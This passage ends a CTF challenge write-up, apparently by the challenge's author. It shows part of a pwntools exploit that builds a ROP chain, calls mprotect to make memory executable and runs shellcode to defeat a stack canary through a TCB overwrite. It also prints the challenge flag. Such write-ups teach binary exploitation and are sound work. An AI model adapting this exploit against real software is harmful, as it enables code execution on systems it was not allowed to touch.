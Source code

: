 ```python
    pop_rdi = libc_base + 0x0000000000026b72
    pop_rsi = libc_base + 0x0000000000027529
    pop_rdx_junk = libc_base + 0x00000000001626d6
    mmap_base = libc_base - 0x5000
    log.info("mmap_base = " + hex(mmap_base))
    shellcode_addr = mmap_base + 0xf20
    fflush = libc_base + LIBC.symbols['fflush']
    stdout = libc_base + LIBC.symbols['_IO_2_1_stdout_']
    rbp = libc_base - 0x4130
    #Adding ROP chain for buffer overflow vuln, the idea is to overwrite TCB structure from where the segment register actually takes canary for checking ,thus overwriting the original canary and triggering overflow
    payload = 'a'*0x80 + p64(rbp)
    payload += p64(pop_rdi)
    payload += p64(mmap_base)
    payload += p64(pop_rsi)
    payload += p64(0x10000)
    payload += p64(pop_rdx_junk)
    payload += p64(7)*2
    #We intend to call mprotect to make mmaped region itself executable
    payload += p64(mprotect)
    payload += p64(shellcode_addr)
    payload += shellcode
    payload += 'a'*(0x8e8 - len(payload))
    log.success('Getting flag')
    sla("feedback: ",payload)
    io.interactive()

```

## Conclusion

I have to give credits to `kileak` from [OpenToAll](https://twitter.com/OpenToAllCTF) for pointing out the unintended solution to my challenge , much appreciated.

### Flag

Here's the flag

**FLAG**: `inctf{wh3r3_d1d_y0u_l4nd_up_f1nally_st4ck_H34p_st4ck_0r_H34p_1963290327101999}`

All in all , I had lot of fun making the challenge which was intended to teach the participants about 3 vulnerabilities -

1. Tricky Format String.
2. Leaking memory from calloc.
3. TCB overwrite.

Here's the exploit script [exp.py](https://gist.github.com/PwnVerse/eaec3712c0dfbf136a8ae628cfe2655a)

